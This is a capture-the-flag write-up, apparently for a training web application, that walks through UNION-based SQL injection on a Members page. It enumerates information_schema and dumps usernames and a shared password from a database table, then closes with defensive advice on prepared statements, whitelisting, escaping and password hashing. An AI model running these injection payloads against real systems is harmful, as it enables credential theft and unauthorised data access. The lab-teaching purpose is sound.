 ### CTF

Once again, we will be using SQL injections in order to capture the flag. We are however going to go through a slightly different method. But first, got to the Members page.

We have already noticed the `db_default` contains two interesting pieces of information, `username` and `password`, in a previous exploit. However, injecting a request such as:
```
    1 AND 1=2 UNION SELECT username, password FROM db_defaut.columns
```
will return the following error:
```
    SELECT command denied to user 'borntosec'@'localhost' for table 'columns'
```
Finally, a request that requires user privilege! Fear not, there is simple way of getting around this issue. Let's look at the different table schemas via
```
    1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
```
The actual table is `Member_Brute_Force.db_default`, as `db_default belongs` to `Member_Brute_Force`. Simply type:
```
    1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default
```
There are merely two users, root and admin, which share the same password `shadow`. Enter one or the other logins at sign in and you've got yourself another flag.

### How to protect yourself

There are multiple solutions:
- One simple solution, and one of the most secured would be to use _prepared SQL requests_, meaning requests taking parameters.
Prepared requests' parameters are not interpreted as SQL, so you can't alter the initial request.
- Use of stored procedures, that is, creating an alias to a SQL request, this alias can take parameters.
However this solution is not fullproof, especially if it includes any unsafe dynamic SQL generation.
- You could also create a whitelist input validation. This can be useful if you expect different specific values.
- Another solution would be to escape all user inputs so they can't be interpreted as a request.
Of course you would not escape password inputs, you should hash them, because... who still stores clear passwords ?
